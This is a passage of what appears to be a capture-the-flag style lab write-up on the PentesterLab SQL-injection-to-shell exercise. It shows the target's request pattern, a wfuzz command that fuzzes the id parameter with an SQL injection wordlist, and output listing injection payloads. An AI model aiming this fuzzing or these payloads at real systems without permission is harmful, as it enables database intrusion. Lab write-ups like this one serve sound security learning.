 <img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-02-sql2shell/home.jpg">

Clicking around to other areas of the website it is clear that pages other than the homepage are accessed with the following request:

```
GET /cat.php?id={id} HTTP/1.1
Host: 192.168.56.101
[...]
```

i.e. the ```test``` page is access via ```id=1```, ```ruxcon``` through ```id=2``` etc. The ```admin``` page is located at ```/Admin.php``` and prompts us for the username and password of the admin. 

# Input Fuzzing

There is clearly some dynamic lookup happening via the ```id``` field in the ```GET``` requests. Let's use the ```wfuzz``` tool that we used for enumeration on the last challenge and repurpose it for SQLi fuzzing.

```
wfuzz -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt http://192.168.56.101/cat.php?id=FUZZ
```

The preceding command replaces the ```FUZZ``` parameter in the URL at the end with the contents of each line in the ```SQL.txt``` file, which contains a number of different common SQLi strings. The output looks like so:

```
root@kali:~# wfuzz --hc 404 -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt http://192.168.56.101/cat.php?id=FUZZ
********************************************************
* Wfuzz 2.1.3 - The Web Bruteforcer                      *
********************************************************

Target: http://192.168.56.101/cat.php?id=FUZZ
Total requests: 125

==================================================================
ID	Response   Lines      Word         Chars          Request
==================================================================

00000:  C=200     66 L	     113 W	   1235 Ch	  "'%20;"
00001:  C=200     66 L	     114 W	   1244 Ch	  "\x3D%20\x3B'"
00002:  C=200     66 L	     114 W	   1238 Ch	  "=%20'"
00003:  C=200     66 L	     114 W	   1239 Ch	  "=%20--"
00004:  C=200     66 L	     113 W	   1236 Ch	  "=%20;"
00005:  C=200     66 L	     113 W	   1235 Ch	  "" or 0=0 #"
00006:  C=200     66 L	     113 W	   1235 Ch	  """

[...truncated...]
```

The important field that we want to look at is the ```Word``` count. Abberations from the baseline of around 113 W indicates that there is some alternate response generated through the handling of the request (errors, extra data, etc). A few interesting samples include:
